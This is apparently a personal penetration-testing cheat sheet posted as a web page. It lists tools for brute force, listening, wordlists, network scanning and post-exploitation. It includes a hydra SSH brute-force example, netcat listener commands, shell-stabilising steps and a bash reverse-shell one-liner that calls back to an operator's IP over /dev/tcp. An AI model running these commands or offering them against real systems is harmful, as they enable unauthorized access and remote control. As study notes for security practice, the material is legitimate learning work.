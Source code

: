 ```yaml
---
layout: single
classes: #wide
title: "Tools"
collection: infopages
permalink: /tools/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

## General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

## Tmux
`tmux a` - attaches session
`tmux -S <name>` - attaches file session or creates one of that name

## Brute-Force
ffuf  
cme - SMB brute force tool  
hydra:  
ex: ```hydra -l usr -P pass.txt ssh://www.example.com```

## Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

## Wordlists
/usr/share/wordlists/  
* /seclists

## Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks

## Shells
reverse shell tips:  
```rlwrap nc -lnvpn``` (reverse shell with better fuctionality/arrowkeys)  

after get shell:  
```python3 -c 'import pty;pty.spawn("/bin/bash")'```
```ctrl - z```(to background the nc process)  
```stty raw -echo;fg```
```export TERM=xterm```   
* makes able to clear term
* better machine access

bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1


## Other
Pspy - inspect application


## Refrance links 
tbd

## Post exploitation
look for weird configs  
linpeas.sh big